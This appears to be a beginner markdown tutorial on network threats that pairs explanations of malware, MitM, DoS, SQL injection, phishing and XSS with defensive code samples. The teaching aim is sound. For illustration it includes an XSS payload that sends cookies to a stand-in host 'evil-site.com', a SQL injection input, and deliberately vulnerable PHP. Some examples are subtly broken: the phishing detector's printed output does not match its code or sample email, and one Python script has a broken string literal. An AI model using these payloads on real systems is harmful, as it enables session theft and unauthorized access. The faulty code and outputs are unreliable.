




# Network Threats

## Introduction

In today's interconnected world, networks serve as the backbone of our digital infrastructure. From small home networks to vast enterprise systems, these interconnected pathways enable the sharing of information and resources. However, with this connectivity comes vulnerability. Network threats represent various attacks and exploits designed to compromise network security, steal data, disrupt services, or gain unauthorized access to systems.

This guide introduces common network threats that every beginner should understand. By recognizing these threats, you'll be better equipped to implement protective measures and safeguard your digital assets.

## Types of Network Threats

### 1. Malware

Malware (malicious software) encompasses various harmful programs designed to damage systems, steal information, or provide unauthorized access.

#### Common Types of Malware

- **Viruses**: Self-replicating programs that attach to legitimate files and spread when these files are executed
- **Worms**: Self-propagating programs that spread independently across networks 
- **Trojans**: Malicious programs disguised as legitimate software
- **Ransomware**: Encrypts user data and demands payment for decryption
- **Spyware**: Secretly monitors user activities and collects sensitive information

#### Example: Simple Virus Detection Script

```python
def scan_file(filename):
    # This is a simplified example - real antivirus software is much more complex
    virus_signatures = ["X5O!P%@AP[4\\PZX54(P^)7CC)7}$", "EICAR-STANDARD-ANTIVIRUS-TEST-FILE"]
    
    try:
        with open(filename, 'rb') as file:
            content = file.read().decode('utf-8', errors='ignore')
            
            for signature in virus_signatures:
                if signature in content:
                    return f"WARNING: Potential virus detected in {filename}"
            
            return f"No virus detected in {filename}"
    except Exception as e:
        return f"Error scanning {filename}: {str(e)}"

# Example usage
result = scan_file("suspicious_file.txt")
print(result)
```

**Output:**
```
WARNING: Potential virus detected in suspicious_file.txt
```

### 2. Man-in-the-Middle (MitM) Attacks

MitM attacks occur when an attacker secretly intercepts and potentially alters communication between two parties who believe they're directly communicating with each other.



#### Common MitM Attack Scenarios:

1. **Public Wi-Fi Eavesdropping**: Attackers create rogue access points or intercept unencrypted data on public networks
2. **ARP Spoofing**: Attacker links their MAC address with a legitimate IP address
3. **DNS Spoofing**: Redirects domain queries to malicious websites
4. **Session Hijacking**: Steals browser cookies to impersonate a user

#### Protection Example: HTTPS Verification

```javascript
// Front-end JavaScript example checking for secure connection
function checkConnectionSecurity() {
  if (window.location.protocol !== 'https:') {
    console.warn('WARNING: This connection is not secure!');
    document.getElementById('security-warning').innerHTML = 
      '<strong>Warning:</strong> Your connection to this site is not secure. ' +
      'Do not enter sensitive information.';
    return false;
  }
  return true;
}

// Call the function when page loads
window.onload = checkConnectionSecurity;
```

### 3. Denial of Service (DoS) and Distributed Denial of Service (DDoS)

DoS and DDoS attacks aim to overwhelm systems and networks, making resources unavailable to legitimate users.

#### How DDoS Attacks Work



#### Common DoS/DDoS Attack Types:

1. **TCP SYN Flood**: Exploits TCP handshake by sending many SYN packets without completing the handshake
2. **HTTP Flood**: Overwhelming number of HTTP requests to a web server
3. **Ping of Death**: Sending malformed or oversized ping packets
4. **Amplification Attacks**: Using DNS, NTP, or other protocols to multiply traffic volume

#### Example: Basic DoS Protection with Rate Limiting

```python
import time
from collections import defaultdict

class RateLimiter:
    def __init__(self, max_requests=10, time_window=60):
        self.max_requests = max_requests  # Maximum requests allowed
        self.time_window = time_window    # Time window in seconds
        self.request_log = defaultdict(list)  # IP address -> list of timestamps
    
    def is_allowed(self, ip_address):
        current_time = time.time()
        # Remove timestamps older than the time window
        self.request_log[ip_address] = [
            timestamp for timestamp in self.request_log[ip_address]
            if current_time - timestamp < self.time_window
        ]
        
        # Check if the IP has exceeded the limit
        if len(self.request_log[ip_address]) >= self.max_requests:
            return False
        
        # Log this request
        self.request_log[ip_address].append(current_time)
        return True

# Example usage
limiter = RateLimiter(max_requests=5, time_window=10)  # 5 requests per 10 seconds

# Simulate requests
for i in range(10):
    ip = "192.168.1.1"
    if limiter.is_allowed(ip):
        print(f"Request {i+1} from {ip} allowed")
    else:
        print(f"Request {i+1} from {ip} blocked - rate limit exceeded")
    time.sleep(1)  # Wait 1 second between requests
```

**Partial Output:**
```
Request 1 from 192.168.1.1 allowed
Request 2 from 192.168.1.1 allowed
Request 3 from 192.168.1.1 allowed
Request 4 from 192.168.1.1 allowed
Request 5 from 192.168.1.1 allowed
Request 6 from 192.168.1.1 blocked - rate limit exceeded
```

### 4. SQL Injection

SQL injection attacks target databases through vulnerable web applications, allowing attackers to access, modify, or delete data by injecting malicious SQL code.

#### Vulnerable Code Example:

```php
// Vulnerable PHP code that allows SQL injection
$username = $_POST['username'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = mysqli_query($connection, $query);
```

If an attacker submits `' OR '1'='1` as the username (and anything as password), the resulting query becomes:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'anything'
```

This always evaluates to true, allowing unauthorized access.

#### Secure Code Example:

```php
// Secure PHP code using prepared statements
$username = $_POST['username'];
$password = $_POST['password'];

$stmt = $connection->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
$result = $stmt->get_result();
```

### 5. Phishing Attacks

Phishing attacks use social engineering to trick users into revealing sensitive information or installing malware by impersonating legitimate entities.

#### Common Phishing Indicators:

1. Suspicious sender email addresses
2. Urgent or threatening language
3. Requests for sensitive information
4. Poor grammar or spelling
5. Suspicious links or attachments

#### Example: Basic Email Phishing Detection

```javascript
function checkForPhishingIndicators(email) {
  // List of keywords often found in phishing emails
  const phishingKeywords = [
    "urgent action required",
    "verify your account",
    "suspicious activity",
    "click here to prevent",
    "update your payment info",
    "your account will be suspended"
  ];
  
  // Convert email content to lowercase for case-insensitive matching
  const emailLower = email.toLowerCase();
  
  // Check for presence of phishing keywords
  const foundKeywords = phishingKeywords.filter(keyword => 
    emailLower.includes(keyword.toLowerCase())
  );
  
  // Check for suspicious URLs
  const hasExternalLinks = emailLower.includes("href=") && 
                          !emailLower.includes("href=\"https://trusted-domain.com");
  
  // Generate risk score
  let riskScore = foundKeywords.length * 2;
  if (hasExternalLinks) riskScore += 3;
  
  return {
    isPhishingSuspected: riskScore > 2,
    riskScore: riskScore,
    suspiciousKeywords: foundKeywords,
    hasExternalLinks: hasExternalLinks
  };
}

// Example usage
const emailContent = `
Dear Customer,
URGENT ACTION REQUIRED: We have detected suspicious activity on your account.
Please click here to verify your account immediately to prevent suspension.
`;

const result = checkForPhishingIndicators(emailContent);
console.log(result);
```

**Output:**
```json
{
  "isPhishingSuspected": true,
  "riskScore": 6,
  "suspiciousKeywords": [
    "urgent action required",
    "suspicious activity",
    "verify your account", 
    "click here to prevent"
  ],
  "hasExternalLinks": true
}
```

## Advanced Network Threats

### Cross-Site Scripting (XSS)

XSS attacks inject malicious client-side scripts into web pages viewed by other users. These scripts can steal cookies, session tokens, or redirect users to malicious sites.

#### Example Vulnerable Code:

```html
<!-- Vulnerable code that displays user input without sanitization -->
<div class="comment-section">
  <?php echo $_GET['comment']; ?>
</div>
```

If an attacker submits a comment with `<script>document.location='https://evil-site.com/steal.php?cookie='+document.cookie</script>`, the script will execute in every visitor's browser.

#### Secure Implementation:

```php
// PHP code that sanitizes user input
$comment = htmlspecialchars($_GET['comment'], ENT_QUOTES, 'UTF-8');
echo '<div class="comment-section">' . $comment . '</div>';
```

### Zero-Day Exploits

Zero-day vulnerabilities are security flaws unknown to the software vendor or developer. Since no patch exists, attackers can exploit these vulnerabilities before developers have an opportunity to address them.



## Network Threat Protection Strategies

### 1. Implementing Firewalls

Firewalls monitor and control incoming and outgoing network traffic based on predetermined security rules.

```bash
# Example of basic Linux iptables firewall rules
# Allow established connections
iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT

# Allow SSH from specific IP address
iptables -A INPUT -p tcp --dport 22 -s 192.168.1.100 -j ACCEPT

# Allow HTTP and HTTPS
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 443 -j ACCEPT

# Drop all other incoming traffic
iptables -A INPUT -j DROP
```

### 2. Intrusion Detection and Prevention Systems (IDS/IPS)

IDS/IPS solutions monitor networks for suspicious activities and policy violations, then take preventive actions when threats are detected.

### 3. Data Encryption

Encryption converts data into a code to prevent unauthorized access.

```javascript
// Example using Node.js crypto module for encryption

const crypto = require('crypto');

// Function to encrypt data
function encryptData(data, encryptionKey) {
  // Generate initialization vector
  const iv = crypto.randomBytes(16);
  
  // Create cipher using AES-256-CBC algorithm
  const cipher = crypto.createCipheriv('aes-256-cbc', Buffer.from(encryptionKey), iv);
  
  // Encrypt the data
  let encrypted = cipher.update(data);
  encrypted = Buffer.concat([encrypted, cipher.final()]);
  
  // Return IV and encrypted data
  return {
    iv: iv.toString('hex'),
    encryptedData: encrypted.toString('hex')
  };
}

// Function to decrypt data
function decryptData(encryptedData, iv, encryptionKey) {
  const decipher = crypto.createDecipheriv(
    'aes-256-cbc', 
    Buffer.from(encryptionKey), 
    Buffer.from(iv, 'hex')
  );
  
  let decrypted = decipher.update(Buffer.from(encryptedData, 'hex'));
  decrypted = Buffer.concat([decrypted, decipher.final()]);
  
  return decrypted.toString();
}

// Example usage
const key = crypto.randomBytes(32); // 256-bit key
const sensitiveData = "This is confidential information";

const encrypted = encryptData(sensitiveData, key);
console.log("Encrypted:", encrypted);

const decrypted = decryptData(encrypted.encryptedData, encrypted.iv, key);
console.log("Decrypted:", decrypted);
```

### 4. Regular Security Updates and Patch Management

Keeping systems updated is crucial for addressing known vulnerabilities:

```python
# Example Python script to check for outdated packages
import subprocess
import sys

def check_outdated_packages():
    try:
        # Run pip list --outdated
        result = subprocess.run(
            [sys.executable, '-m', 'pip', 'list', '--outdated', '--format=json'],
            capture_output=True,
            text=True,
            check=True
        )
        
        # Parse the output
        import json
        packages = json.loads(result.stdout)
        
        if not packages:
            print("All packages are up to date!")
            return []
            
        print("Outdated packages found:")
        for pkg in packages:
            print(f"- {pkg['name']}: {pkg['version']} → {pkg['latest_version']}")
            
        return packages
            
    except Exception as e:
        print(f"Error checking for outdated packages: {e}")
        return []

# Example usage
outdated = check_outdated_packages()
if outdated:
    print(f"
Found {len(outdated)} outdated packages that may contain security vulnerabilities.")
```

### 5. Network Segmentation

Dividing networks into segments limits the scope of potential breaches.



## Real-World Examples

### Example 1: The WannaCry Ransomware Attack

In May 2017, the WannaCry ransomware targeted computers running Microsoft Windows by encrypting data and demanding ransom payments in Bitcoin. This attack exploited the EternalBlue vulnerability in Windows' Server Message Block (SMB) protocol.

**Key Lessons:**
1. The importance of timely security updates (Microsoft had released a patch two months earlier)
2. The need for regular backups
3. The danger of using outdated operating systems

### Example 2: The Target Data Breach

In 2013, Target suffered a massive data breach affecting approximately 40 million customer credit and debit card accounts. Attackers gained initial access through an HVAC vendor's network credentials, highlighting the risks of third-party access.

**Key Lessons:**
1. The importance of network segmentation
2. Proper management of third-party access
3. The need for robust monitoring systems

## Best Practices for Network Security

1. **Implement Defense in Depth**: Use multiple layers of security controls
2. **Follow the Principle of Least Privilege**: Grant minimal access required for tasks
3. **Conduct Regular Security Audits**: Identify vulnerabilities before attackers do
4. **Develop an Incident Response Plan**: Be prepared to respond to security breaches
5. **Train Users on Security Awareness**: People are often the weakest link in security

## Summary

Network threats are constantly evolving, posing significant risks to organizations and individuals alike. By understanding common attack vectors such as malware, man-in-the-middle attacks, DDoS, SQL injection, and phishing, you can better prepare your defenses.

Effective network security requires a multi-layered approach combining technical controls like firewalls and encryption with operational practices like regular updates and user training. Remember that security is an ongoing process, not a one-time implementation.

## Exercises

1. Set up a basic firewall on your personal computer and document the rules you implement.
2. Analyze a phishing email (there are safe examples online) and identify the red flags.
3. Create a simple intrusion detection system using Python that monitors log files for suspicious patterns.
4. Implement a basic encryption and decryption program using a programming language of your choice.
5. Conduct a security audit of your home network and identify potential vulnerabilities.

## Additional Resources

- [OWASP (Open Web Application Security Project)](https://owasp.org/)
- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
- [SANS Institute](https://www.sans.org/)
- [Cybersecurity & Infrastructure Security Agency](https://www.cisa.gov/)